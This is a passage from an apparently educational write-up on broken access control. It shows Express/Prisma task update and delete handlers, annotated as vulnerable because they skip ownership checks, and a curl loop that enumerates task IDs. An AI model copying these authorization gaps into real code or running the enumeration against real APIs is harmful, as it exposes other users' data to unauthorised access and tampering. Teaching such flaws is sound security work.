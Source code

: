 ```javascript
app.put('/api/tasks/:id', authenticateUser, async (req, res) => {
  const { id } = req.params;
  const { title, description, priority, status } = req.body;
  
  try {
    // VULNERABILITY: No ownership check before update
    const updatedTask = await prisma.task.update({
      where: { id: parseInt(id) },
      data: { title, description, priority, status },
      include: {
        user: { select: { firstName: true, lastName: true } }
      }
    });
    
    res.json(updatedTask);
  } catch (error) {
    res.status(500).json({ error: 'Failed to update task' });
  }
});

// VULNERABLE CODE - Task Deletion
app.delete('/api/tasks/:id', authenticateUser, async (req, res) => {
  const { id } = req.params;
  
  try {
    // VULNERABILITY: No ownership verification
    await prisma.task.delete({
      where: { id: parseInt(id) }
    });
    
    res.json({ message: 'Task deleted successfully' });
  } catch (error) {
    res.status(500).json({ error: 'Failed to delete task' });
  }
});
```

## Exploitation Techniques

### 1. Sequential ID Enumeration

**Objective**: Access all tasks by incrementing/decrementing task IDs

```bash
# Enumerate tasks by ID
for i in {1..100}; do
  curl -s -H "Authorization: Bearer $TOKEN" \
       "http://localhost:3000/api/tasks/$i" | jq .
done
```
